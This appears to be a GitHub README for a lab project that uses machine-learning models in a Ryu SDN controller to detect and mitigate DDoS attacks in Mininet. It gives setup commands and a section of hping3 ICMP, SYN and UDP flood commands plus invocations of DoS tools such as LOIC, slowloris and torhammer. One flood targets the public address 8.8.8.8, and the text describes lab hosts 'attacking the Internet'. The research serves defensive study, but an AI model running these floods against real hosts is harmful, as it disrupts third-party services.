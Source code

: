 # I. Server Administration Information:
## VMware:
Product: VMware® Workstation 15 Pro  
Version: 15.5.0 build-14665864  
## Ryu Controller:
OS: Ubuntu 19.10 eoan  
IP: 192.168.0.104   
## Mininet:		
Distributor ID:	Ubuntu
OS: Ubuntu 18.04.6 LTS
IP:192.168.0.100


# II. Build SDN System
## 1. Ryu Controller
**Step 1: Goto my project**
```sh
cd my_project/controller/
```
**Step 2: Start Controller SDN**  
In this directory, I have created multiple Controller files, each corresponding to different machine learning algorithms used for testing in various scenarios of detecting and mitigating DDoS attacks. Specifically:
- DT_controller-detect.py: this file uses a Decision Tree algorithm so the system can detect DDoS attacks.
- KNN_controller-detech.py: uses a K-Nearest Neighbors algorithm. algorithm so the system can detect DDoS attacks.
- RF_controller.py: uses a Randowm Forest algorithm. algorithm so the system can detect DDoS attacks.
- DTree_Controller.py: this file uses a Decision Tree algorithm so the system can detect and mitigate DDoS attacks.
- KNN_Controller.py: uses a K-Nearest Neighbors algorithm so the system can detect and mitigate DDoS attacks.

Controller normal (The controller operates normally and does not have an integrated attack detection and mitigation module):
```sh
ryu-manager ryu.app.simple_switch_13,ryu.app.ofctl_rest flowmanager/flowmanager.py    --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080"
```
Controller detect:
```sh
DTree: ryu-manager DT_controller-detect.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_controller-detech.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Controller detect & mitigation:
```sh
DTree: ryu-manager DTree_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
**Step 3: Controller management site**
```sh
http://192.168.0.104:8080/home/index.html
```
		
## 2. Mininet
**Step 1: Goto my project**
```sh
cd project/mininet
```
**Step 2: Start sflow service**
```sh
sudo ./sflow/sflow-rt/start.sh
```
After starting sflow, you should open another command line on linux to initialize mininet

**Step 3: Start mininet**  
Within the scope of my experiment, I created 2 mininet files in python3 language. Furthermore, I use the command in linux to create mininet virtual devices, details are as below:
- Topology 1: 12 hosts and 6 switches
```sh
sudo mn --custom topology.py,sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo mytopo
```
- Topology 2: 6 hosts and 3 switches
```sh
sudo mn --custom topology2.py,sflow/sflow-rt/extras/sflow.py --controller=remote,ip=192.168.0.104:6653 --topo mytopo
```
- Topology commandline: Linux commandline
```sh
sudo mn -c && sudo mn --custom sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo tree,depth=2,fanout=2
```
Here, you only use 1 of 3 topologies to test the system.

**Step 4: Make Mininet access Internet**  
I wrote a simple script to help mininet's virtualized devices access directly to the Internet. I use it to experiment with hosts inside the system attacking the Internet.
```sh
source /home/will/project/mininet/route-topology2.mn
```
Step 5: SDN infrastructure monitoring website
```sh
http://192.168.0.100:8008/html/index.html#status
http://192.168.0.100:8008/app/mininet-dashboard/html/index.html#charts
```


# III. Attack DDOS
Start the web on any host, here I use host 1 as the web server
```sh
python -m SimpleHTTPServer 80
```
Test Web Server: using another host to request to host 1.
```sh
wget http://10.0.0.1
```
Attack DDOS
```sh
Icmp flood command: h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood h1
SYN flood command: 	h6 hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood h1
Udp flood command:  h6 hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood h1
attack Controller:  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.104
attack Public	 :  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 8.8.8.8
```
Other tool attack: I use some cehv11 ddos attack tools
```sh
cd project/tool-dos/tool-attack/
wine Hoic.exe
mono LOIC.exe
python pyloris.py
python3 slowloris.py 10.0.0.1 -p 80
python torhammer.py -t 10.0.0.1
python torhammer.py -t 10.0.0.1 -p 80
python3 saphyra http://10.0.0.1/ (full CPU)
python3 RDDoS_Tool.py => select 2 => IP - port
```
In addition to using the CIC dataset, during the process of experimenting with detecting DDoS attacks, I collected and added to the dataset.  
Normal Dataset:
```sh
Controller: ryu-manager collect_benign_trafic.py
Mininet: sudo python3 generate_benign_trafic.py
```
DDoS Dataset:
```sh
Controller: ryu-manager collect_ddos_trafic.py
Mininet: sudo python3 generate_ddos_trafic.py
```
